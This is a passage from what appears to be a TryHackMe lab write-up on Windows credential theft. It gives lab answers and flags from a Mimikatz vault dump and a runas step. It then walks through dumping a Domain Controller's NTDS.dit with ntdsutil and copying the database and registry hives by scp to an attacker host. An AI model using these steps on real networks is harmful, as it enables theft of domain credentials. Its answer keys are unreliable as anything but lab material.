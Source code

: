          E4syPassw0rd
        
Use Mimikatz to memory dump the credentials for the 10.10.237.226 SMB share which is stored in the Windows Credential vault. What is the password?

          jfxKruLkkxoPjwe3

Run cmd.exe under thm-local user via runas and read the flag in "c:\Users\thm-local\Saved Games\flag.txt". What is the flag?

          THM{RunA5S4veCr3ds}



<br>



## Task 7: Dumping Domain Controller Hashes

  This task covers two methods to extract NTDS.dit (Active Directory database) hashes from a Domain Controller:

> Method.
1. Local Dumping (No Credentials)
    - Requires administrative access to the DC.
    - Uses ntdsutil to create a backup of NTDS.dit, SYSTEM, and SECURITY files.
    - Extracts hashes using Impacket's secretsdump.py.
2. Remote Dumping (With Credentials - DC Sync Attack)
    - Requires domain admin (or equivalent) credentials.
    - Uses secretsdump.py to remotely pull hashes via DRSUAPI (DC Sync).
    - Can crack extracted NTLM hashes with Hashcat (-m 1000).

> Workflow..
### 1. Local Dumping (If You Have Admin Access to DC)

1. Dump `NTDS.dit`, `SYSTEM`, and `SECURITY` files

       powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

     -  Files will be saved in `C:\temp\Active Directory\ntds.dit` and `C:\temp\registry\SYSTEM` & `SECURITY`.
       
  ![image](https://github.com/user-attachments/assets/616e013e-638e-46fc-9b47-0fe19669327e)


2. Transfer Files to Attacker Machine

    - Use `scp`, `smb`, or another method to move files to your Kali/AttackBox.

           scp C:\temp\Active Directory\ntds.dit root@10.10.90.246:/root/.

     ![image](https://github.com/user-attachments/assets/7d2153cd-ea7a-4b80-aa5f-d647e28230bc)

    simillarly, for `SYSTEM` and `SECURITY`..

        scp C:\temp\registry\SYSTEM root@10.10.90.246:/root/.
        scp C:\temp\registry\SECURITY root@10.10.90.246:/root/.
